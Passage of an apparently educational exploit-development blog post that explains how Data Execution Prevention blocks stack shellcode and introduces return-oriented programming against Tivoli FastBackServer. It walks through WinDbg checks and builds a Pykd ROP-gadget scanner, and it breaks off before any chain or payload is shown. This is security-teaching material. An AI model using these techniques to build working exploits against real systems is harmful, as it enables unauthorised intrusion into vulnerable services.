








> A deep, hands-on walkthrough of how Data Execution Prevention actually breaks
> a classical stack overflow, why Return-Oriented Programming is the answer,
> and how to build a full VirtualAlloc-based ROP chain — gadget by gadget —
> against a real 32-bit Windows service (Tivoli Storage Manager FastBackServer)
> until a Meterpreter shell falls out the other end.

---

## 1. Introduction: Why DEP Changed Everything

In every previous post we treated the stack as a place where instructions can live.
We wrote shellcode into a buffer, arranged for `EIP` to land on top of it, and
watched the CPU dutifully execute each byte. That is the world before
**Data Execution Prevention**.

Data Execution Prevention — also called **NX** (No-eXecute) — is a hardware and
operating-system feature that draws a hard line between memory that holds *code*
and memory that holds *data*. Under DEP, every virtual page carries an
executable bit in its Page Table Entry. When the CPU tries to fetch an
instruction from a page whose `NX` bit is set, it does not execute the byte, it
raises `STATUS_ACCESS_VIOLATION` (`0xC0000005`). The stack, the heap, and every
`PAGE_READWRITE` allocation get `NX = 1` by default. A `JMP ESP` still succeeds
— that instruction lives in a legitimate code page — but the very first byte of
shellcode at `ESP` faults on fetch.

DEP has **four modes** that determine which processes it protects:

1. **OptIn** — DEP is enabled only for system processes and applications the
   user (or the compiler via `/NXCOMPAT`) explicitly opts in. Everything else
   runs without NX.
2. **OptOut** — DEP is enabled for **everything** except applications on an
   explicit exemption list.
3. **AlwaysOn** — DEP is permanently enabled, no exceptions, cannot be disabled
   at runtime.
4. **AlwaysOff** — DEP is permanently disabled.

Under the hood, the routine that decides whether to enable NX for a freshly
loaded process is `LdrCheckNXCompatibility` inside `ntdll.dll`. It walks the
compatibility database, the module's PE header (`IMAGE_DLLCHARACTERISTICS_NX_COMPAT`),
and the current system policy, and based on the result it invokes
`NtSetInformationProcess` with the `ProcessExecuteFlags` class to lock in the
process's NX state.

> **What you will learn.** By the end of this article you will understand
> exactly why DEP breaks classic stack-based shellcode; how Return-Oriented
> Programming (ROP) sidesteps DEP by executing only code that already lives in
> executable pages; how to hunt for gadgets both by hand (with a Pykd script we
> build from scratch) and with `rp++`; how to build a `VirtualAlloc`-based ROP
> chain to flip a stack page's protection to RWX; and how to weaponize the
> whole thing into a working Meterpreter reverse shell against a real Windows
> service — Tivoli Storage Manager's FastBackServer.
{: .prompt-info }

> Everything here is intended for **defensive research, education, and
> authorized testing only**. Run these techniques exclusively against software
> and systems you own or are explicitly permitted to test. Memory-corruption
> exploitation against systems you do not control is illegal in most
> jurisdictions.
{: .prompt-warning }

The two diagrams below capture the whole idea at a glance — the memory-model
consequence of DEP, and the paradigm shift ROP performs on top of it:



*Figure 1.1 — Before DEP, the stack was both writable and executable, so
copying shellcode there and jumping to it was enough. After DEP the same page
is writable but not executable; `JMP ESP` still lands there, but the very
first instruction fetch faults.*



*Figure 1.2 — ROP inverts the model. Instead of putting our own instructions
on the stack, we put a stream of **return addresses** on the stack. Each
address points at a tiny already-existing instruction sequence ending in
`ret` (a **gadget**) inside a legitimate executable page. Every `ret` pops
the next gadget address off the stack — the stack becomes a program counter
for a virtual machine we assembled out of the target's own code.*

---

## 2. Prerequisites and Mental Model

To follow along comfortably you should be familiar with:

- **x86 (32-bit) assembly** — general-purpose registers (`EAX`, `ECX`, `ESI`,
  `EDI`, `EBP`, `ESP`, `EIP`), how `PUSH` / `POP` / `CALL` / `RET` manipulate
  the stack, and the meaning of a memory dereference like `[EAX]`.
- **The call stack under STDCALL** — arguments pushed right-to-left, callee
  returns via `RET n`. The Win32 API on x86 uses STDCALL for almost every
  exported function, including `VirtualAlloc`.
- **WinDbg basics** — `bp`, `g`, `p`, `t`, `dd`, `dds`, `r`. The screenshots use
  WinDbg but the ideas transfer to any Windows debugger.
- **Buffer overflows** — the material from the earlier
  [SEH](/posts/SEH-Exploit-Development/) and
  [Egghunter](/posts/Egghunter-Exploit-Development/) posts on this blog is
  assumed context, especially the crash → offset → bad-char workflow.

Here is the single most important mental model for this article. In a classic
overflow the payload contained *instructions*. In a ROP exploit the payload
contains *pointers to instructions*. The chain in Figure 1.2 is a program, and
the CPU executes it — but every actual instruction runs from a page that DEP
considers legitimate.

---

## 3. Data Execution Prevention in Action

Before we start bypassing DEP, we should see it kill a naïve exploit in front
of us. That's the fastest way to internalize what the mitigation actually does.

Fire up WinDbg, attach it to `notepad.exe`, and let it hit the initial break:


*Figure 3.1 — WinDbg attached to a fresh instance of `notepad.exe`. Any
protected 32-bit process would do; notepad is convenient because it is small
and predictable.*

### 3.1 Reading a page's protection

The `!vprot` extension in WinDbg dumps the page-protection bits for a given
virtual address by calling `VirtualQuery` under the covers. Let's ask it about
the page `EIP` is currently pointing to:

```text
!vprot eip
```


*Figure 3.2 — The page that `EIP` lives on is marked `PAGE_EXECUTE_READ`, i.e.
readable and executable. That is exactly what a code page should be.*

Now ask about the stack:

```text
!vprot esp
```


*Figure 3.3 — The page pointed to by `ESP` is `PAGE_READWRITE`. It is readable
and writable, but it is **not** executable. That is DEP at rest.*

### 3.2 Confirming the process is DEP-protected

The `narly` extension gives a per-module view of which mitigations are on. Load
it and list every module along with its protections:

```text
.load narly
```


```text
!nmod
```


*Figure 3.4 — `notepad.exe` and its DLLs are marked with `NXCompat`, `SafeSEH`,
and `ASLR`. This process runs under full DEP.*

### 3.3 Triggering the DEP fault manually

Nothing beats seeing DEP crash the CPU with your own eyes. Overwrite the four
bytes at `ESP` with `NOP` (`0x90`), point `EIP` at the stack, and try to
single-step:

```text
ed esp 90909090
```


```text
r eip = esp
```


```text
p
```


*Figure 3.5 — The moment we try to execute the first `0x90` on the stack the
CPU raises an access violation. There is nothing wrong with `0x90` as an
instruction — the fault is the NX bit on the stack page. This is DEP,
observed live.*

> If DEP were disabled, the CPU would happily execute the `NOP` and step to the
> next instruction. The fact that it faults instead is the direct, physical
> evidence that DEP is doing its job.
{: .prompt-tip }

---

## 4. Enabling DEP on an Uncooperative Target

Our real target for the rest of this article is **Tivoli Storage Manager's
FastBackServer** — a 32-bit Windows service listening on TCP port 11460 that
suffers from a stack overflow in its `psAgentCommand`/`psCommandBuffer`
handler. Attach it under WinDbg first:


*Figure 4.1 — The target process attached. From this point on every register
dump, every gadget probe, and every crash we look at is happening inside this
process image.*

Now check what mitigations it ships with:

```text
!nmod
```


*Figure 4.2 — FastBackServer is compiled **without** `NXCompat`. DEP is off
for the process by default. That is not realistic for a modern
demonstration — so we will turn DEP on ourselves.*

### 4.1 Windows Defender Exploit Guard (WDEG)

Historically Microsoft shipped a separate tool called **EMET** (Enhanced
Mitigation Experience Toolkit) that could layer mitigations onto processes
that had not been compiled with them. EMET was retired and its per-process
mitigation UI was rolled into Windows Defender under the name **Windows
Defender Exploit Guard** (WDEG). Same idea, different branding.

Open Windows Defender Security Center:


Pick **App & browser control**:


Click **Exploit protection settings**:


Move to the **Program settings** tab:


Add the executable path to `FastBackServer.exe`:


Toggle **Data Execution Prevention** on:


WDEG will prompt to restart the application — do so and re-attach. Then
repeat the manual DEP test we did on notepad:

```text
ed esp 90909090
r eip = esp
p
```


*Figure 4.3 — Same access violation, but now against `FastBackServer.exe`.
DEP is enforced for our target process. From here on the exploit has to bypass
it, not ignore it.*

---

## 5. Return-Oriented Programming — Theory

The oldest idea for beating an NX stack is **return-to-libc**. Instead of
executing shellcode, you return directly into a legitimate C library function
with attacker-controlled arguments on the stack. When DEP first shipped on
Windows, exploit developers immediately noticed that DEP could be turned off
*per process* via `NtSetInformationProcess` — so the standard trick became to
overwrite the saved `EIP` with the address of that API, pass arguments that
disabled DEP for the current process, and jump to shellcode afterwards.
Microsoft closed that door with **Permanent DEP**: any executable linked
`/NXCOMPAT` cannot have its DEP state relaxed at runtime.

**Return-Oriented Programming** is what came next. It generalizes the
return-to-libc technique. Rather than returning into a whole function, we
return into **gadgets** — very short instruction sequences already resident in
executable pages, each ending in `RET` (`0xC3`) or `RET imm16` (`0xC2`). By
chaining gadgets we build higher-level operations: load a register with a
constant, add two registers, dereference a pointer, write memory. The stack
becomes a program of gadget-pointers, and every `RET` "fetches" the next
gadget-pointer and jumps to it.

Depending on our goal we have two flavors of ROP payload:

1. **Pure ROP shellcode** — the entire payload is a chain of gadgets, no
   shellcode at all. Everything the exploit needs to do (allocate memory, open
   a socket, spawn a shell) is expressed as ROP.
2. **Staged ROP** — the ROP chain does the *minimum* work to make a memory
   region executable, then transfers control to a small block of traditional
   shellcode inside that now-executable region. This is by far the more common
   approach because it is dramatically less painful than writing several
   kilobytes of pure ROP.

We are taking the staged approach. The staging step is a Win32 API call that
flips memory protections. Three APIs make natural staging targets:

- **`VirtualAlloc`** — reserve/commit a region of virtual memory with any
  protection we like. Passing `MEM_COMMIT | PAGE_EXECUTE_READWRITE` for an
  already-committed page effectively re-commits it with new protections.
- **`VirtualProtect`** — change the protection of an existing region.
- **`WriteProcessMemory`** — copy data into any region of any accessible
  process, useful when the target module lacks a page-flip primitive.

We will use `VirtualAlloc` because its function signature is the shortest of
the three and, crucially, it does not need a writable output pointer. Every
gadget we save on that count is a gadget we do not have to find.


*Figure 5.1 — The three staging APIs side by side. All three achieve the same
end result — a page the CPU is willing to execute — but the ROP chain that
drives each one has a very different shape and length.*

We do not have to guess the runtime address of `VirtualAlloc`. Every module
that calls it has an **Import Address Table** entry for it. The IAT slot's
virtual address does not change between runs of the same process (in the
absence of module-level ASLR), even though the actual `VirtualAlloc` in
`kernel32.dll` moves. All we need is a `MOV EAX, [IAT_entry]` primitive and
we have the current, correct address of the API.

The plan, at a high level, is:

1. Set up a stack layout that reserves six slots for the `VirtualAlloc` call
   frame — its address, a return address (to our shellcode), and its four
   arguments — plus the ROP chain itself.
2. Use ROP gadgets to fill each of the six slots with the correct value at
   runtime, patching around bad bytes as we go.
3. Pivot `ESP` onto the top of that call frame, so the next `RET` transfers
   control to `VirtualAlloc` with the right arguments already on the stack.
4. `VirtualAlloc` flips the page to `PAGE_EXECUTE_READWRITE`, `RET`s into our
   shellcode, and we get a shell.

---

## 6. Debugger Automation With Pykd

Before we start collecting gadgets we need a way to find them at scale.
The hardest part is not identifying *a* gadget — you can eyeball one — but
scanning every executable byte of every module and printing every distinct
gadget that ends in `RET`. That's a job for a tool.

**Pykd** is a WinDbg extension that exposes the debugger's engine to Python.
Because it runs inside the debugger, it sees the same address space the
debugger sees — memory regions, module boundaries, page protections. That
makes it uniquely suited to gadget hunting.

### 6.1 A Pykd hello world

Every Pykd script starts with the same import. Here is the smallest possible
one:

```python
from pykd import *
dprintln("Hello World!")
```


*Figure 6.1 — The script. `dprintln` prints straight to WinDbg's command
window.*

Attach WinDbg to FastBackServer again:


Load the Pykd extension:

```text
.load pykd
```


Now run the hello-world script from WinDbg using the `!py` bang command:

```text
!py C:\scripts\hello.py
```


*Figure 6.2 — The script prints its greeting into the debugger console. That
proves Pykd is loaded and Python can talk to the running process. From here
we build up a real gadget scanner.*

### 6.2 Getting a handle on a module

The first thing our scanner needs is a module object — a way to ask
"what are the base and end addresses of `FastBackServer.exe` right now?".
Pykd's `module()` returns exactly that:

```python
from pykd import *

if __name__ == '__main__':
    count = 0
    try:
        modname = sys.argv[1].strip()
    except IndexError:
        print("Syntax: findrop.py modulename")
        sys.exit()

    mod = module(modname)
```


*Figure 6.3 — Take a module name from `argv[1]`, resolve it against the loaded
image list. `mod` now has `.begin()`, `.end()`, and `.name()` methods.*

### 6.3 Counting memory pages

x86 uses 4 KB pages, so `PAGE_SIZE = 0x1000`. The number of pages a module
occupies is `(end - begin) / 0x1000`:

```python
from pykd import *

PAGE_SIZE = 0x1000

if __name__ == '__main__':
    count = 0
    try:
        modname = sys.argv[1].strip()
    except IndexError:
        print("Syntax: findrop.py modulename")
        sys.exit()

    mod = module(modname)

    if mod:
        pn = int((mod.end() - mod.begin()) / PAGE_SIZE)
        print("Total Memory Pages: %d" % pn)
```


*Figure 6.4 — The script computes the page count. `PAGE_SIZE = 0x1000` is the
architectural constant for 32-bit x86; that's non-negotiable.*

Run with no arguments to confirm the syntax check works:

```text
!py C:\scripts\findrop.py
```


Now aim it at our target:

```text
!py C:\scripts\findrop.py FastBackServer
```


*Figure 6.5 — FastBackServer occupies 2060 memory pages. That's about 8 MB.
But not all of those pages are executable — data segments (`.data`, `.rdata`,
`.bss`) are readable but not executable, and gadgets in those pages are
useless because the CPU refuses to fetch instructions from them.*

### 6.4 Filtering executable pages

Add a helper that classifies a page. Windows exposes seven meaningful
`PAGE_*` constants for executable memory:

```python
from pykd import *

PAGE_SIZE = 0x1000

MEM_ACCESS_EXE = {
    0x10 : "PAGE_EXECUTE",
    0x20 : "PAGE_EXECUTE_READ",
    0x40 : "PAGE_EXECUTE_READWRITE",
    0x80 : "PAGE_EXECUTE_WRITECOPY",
}

def isPageExec(address):
    try:
        protect = getVaProtect(address)
    except:
        protect = 0x1
    if protect in MEM_ACCESS_EXE.keys():
        return True
    else:
        return False

if __name__ == '__main__':
    count = 0
    try:
        modname = sys.argv[1].strip()
    except IndexError:
        print("Syntax: findrop.py modulename")
        sys.exit()

    mod = module(modname)

    pages = []

    if mod:
        pn = int((mod.end() - mod.begin()) / PAGE_SIZE)
        print("Total Memory Pages: %d" % pn)

        for i in range(0,pn):
            page = mod.begin() + i * PAGE_SIZE
            if isPageExec(page):
                pages.append(page)
        print("Executable Memory Pages: %d" % len(pages))
```


*Figure 6.6 — For every page in the module, ask WinDbg for its protection
bits via `getVaProtect`. If the value is any of the four executable
constants, keep the page. Any other protection — read-only, guard page,
no-access — is discarded.*

```text
!py C:\scripts\findrop.py FastBackServer
```


*Figure 6.7 — Of the 2060 pages, only 637 are executable. Every gadget we
care about must live inside one of those pages; any address outside them is
either DEP-protected or unmapped.*

### 6.5 Finding `RET` instructions

The signature of a gadget is very simple: it ends in `RET`. Two opcodes count:

- `0xC3` — plain `RET`, pops `EIP` and continues.
- `0xC2 imm16` — `RET imm16`, pops `EIP` and then adds a 16-bit immediate to
  `ESP` (used to clean up STDCALL arguments).

Scan every byte of every executable page for those opcodes:

```python
from pykd import *

PAGE_SIZE = 0x1000

MEM_ACCESS_EXE = {
    0x10 : "PAGE_EXECUTE",
    0x20 : "PAGE_EXECUTE_READ",
    0x40 : "PAGE_EXECUTE_READWRITE",
    0x80 : "PAGE_EXECUTE_WRITECOPY",
}

def findRetn(pages):
    retn = []
    for page in pages:
        ptr = page
        while ptr < (page + PAGE_SIZE):
            b = loadSignBytes(ptr,1)[0] & 0xff
            if b not in [0xC3, 0xC2]:
                ptr += 1
                continue
            else:
                retn.append(ptr)
                ptr += 1

    print("Found %d ret instructions" % len(retn))
    return retn

def isPageExec(address):
    try:
        protect = getVaProtect(address)
    except:
        protect = 0x1
    if protect in MEM_ACCESS_EXE.keys():
        return True
    else:
        return False

if __name__ == '__main__':
    count = 0
    try:
        modname = sys.argv[1].strip()
    except IndexError:
        print("Syntax: findrop.py modulename")
        sys.exit()

    mod = module(modname)

    pages = []

    if mod:
        pn = int((mod.end() - mod.begin()) / PAGE_SIZE)
        print("Total Memory Pages: %d" % pn)

        for i in range(0,pn):
            page = mod.begin() + i * PAGE_SIZE
            if isPageExec(page):
                pages.append(page)
        print("Executable Memory Pages: %d" % len(pages))
        retn = findRetn(pages)
```


*Figure 6.8 — For every byte in every executable page, load one signed byte,
mask off the sign to a plain byte, and check if it's `0xC3` or `0xC2`. This
is a byte-level scan, not an instruction-level one — that matters, because
many valid gadgets sit at the middle of a wider instruction. Scanning
byte-by-byte finds them all.*

Run it:

```text
!py C:\scripts\findrop.py FastBackServer
```


*Figure 6.9 — Thousands of `RET` bytes. That number is deliberately noisy: a
random `0xC3` byte in the middle of an operand is not actually a `RET`, but
we cannot know that without disassembling. The next pass filters real gadgets
from spurious matches.*

### 6.6 Disassembling backward to build gadgets

For each `RET` address, walk backward `1..MAX_GADGET_SIZE` bytes and try to
disassemble what's there. If the disassembly parses, ends in `RET`, and does
not contain any invalid or dangerous instruction (privileged ops, `INT`,
`JMP`, `CALL`, etc.), the sequence is a valid gadget.

Here is the smallest possible version that proves the disassembly primitive
works — it just prints the length and mnemonic of the first `RET` it found:

```python
from pykd import *

PAGE_SIZE = 0x1000

MEM_ACCESS_EXE = {
    0x10 : "PAGE_EXECUTE",
    0x20 : "PAGE_EXECUTE_READ",
    0x40 : "PAGE_EXECUTE_READWRITE",
    0x80 : "PAGE_EXECUTE_WRITECOPY",
}

def getGadgets(addr):
    ptr = addr - 1
    dasm = disasm(ptr)
    gadget_size = dasm.length()
    print("Gadget size is: %x" % gadget_size)
    insrt = dasm.instruction()
    print("Found Instruction: %s" % insrt)

def findRetn(pages):
    retn = []
    for page in pages:
        ptr = page
        while ptr < (page + PAGE_SIZE):
            b = loadSignBytes(ptr,1)[0] & 0xff
            if b not in [0xC3, 0xC2]:
                ptr += 1
                continue
            else:
                retn.append(ptr)
                ptr += 1

    print("Found %d ret instructions" % len(retn))
    return retn

def isPageExec(address):
    try:
        protect = getVaProtect(address)
    except:
        protect = 0x1
    if protect in MEM_ACCESS_EXE.keys():
        return True
    else:
        return False

if __name__ == '__main__':
    count = 0
    try:
        modname = sys.argv[1].strip()
    except IndexError:
        print("Syntax: findrop.py modulename")
        sys.exit()

    mod = module(modname)

    pages = []

    if mod:
        pn = int((mod.end() - mod.begin()) / PAGE_SIZE)
        print("Total Memory Pages: %d" % pn)

        for i in range(0,pn):
            page = mod.begin() + i * PAGE_SIZE
            if isPageExec(page):
                pages.append(page)
        print("Executable Memory Pages: %d" % len(pages))
        retn = findRetn(pages)
        getGadgets(retn[0])
```


```text
!py C:\scripts\findrop.py FastBackServer
```


*Figure 6.10 — The first "gadget" we recover from the raw `RET` list is
`pop ebp; ret`. That's a real, useful, two-instruction gadget — the kind of
thing we will need dozens of.*

### 6.7 The full scanner

The production version formalizes what we prototyped, adds a
blacklist of instructions that break gadget flow (`call`, `jmp`, conditional
jumps, privileged ops), writes the output to disk, and iterates over
`MAX_GADGET_SIZE` window sizes from 1 to 8 bytes so we find gadgets of
various lengths:

```python
"""
Pykd Gadget Discovery Tool
"""

from pykd import *
import sys, time

